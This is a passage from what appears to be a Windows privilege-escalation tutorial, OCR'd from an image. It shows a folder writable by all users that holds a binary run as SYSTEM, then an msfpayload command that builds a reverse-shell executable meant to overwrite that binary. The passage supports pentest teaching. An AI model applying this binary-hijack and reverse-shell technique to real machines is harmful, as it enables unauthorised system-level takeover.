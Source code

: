        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
  R  BUILTIN\Users
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_EA
        FILE_TRAVERSE
        SYNCHRONIZE
        READ_CONTROL
		
C:\Users\user1\Desktop> dir "E:\GrabLogs"

 Volume in drive E is More
 Volume Serial Number is FD53-2F00

 Directory of E:\GrabLogs

02/18/2014  11:34 PM    <DIR>          .
02/18/2014  11:34 PM    <DIR>          ..
02/18/2014  11:34 PM    <DIR>          Logs
02/18/2014  09:21 PM           180,736 tftp.exe
               1 File(s)        180,736 bytes
               3 Dir(s)   5,454,602,240 bytes free


 

Clearly this is a serious configuration issue, there is no need for this task to run as SYSTEM but even worse is the fact that any authenticated user has write access to the folder. Ideally for a pentesting engagement I would grab the TFTP client, backdoor the PE executable while making sure it still worked flawlessly and then drop it back on the target machine. However for the purpose of this example we can simple overwrite the binary with an executable generated by metasploit.

root@darkside:~# msfpayload windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' O

       Name: Windows Command Shell, Reverse TCP Inline
     Module: payload/windows/shell_reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 314
       Rank: Normal

Provided by:
  vlad902 <vlad902@gmail.com>
  sf <stephen_fewer@harmonysecurity.com>

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique: seh, thread, process, none
LHOST     127.0.0.1        yes       The listen address
LPORT     9988             yes       The listen port
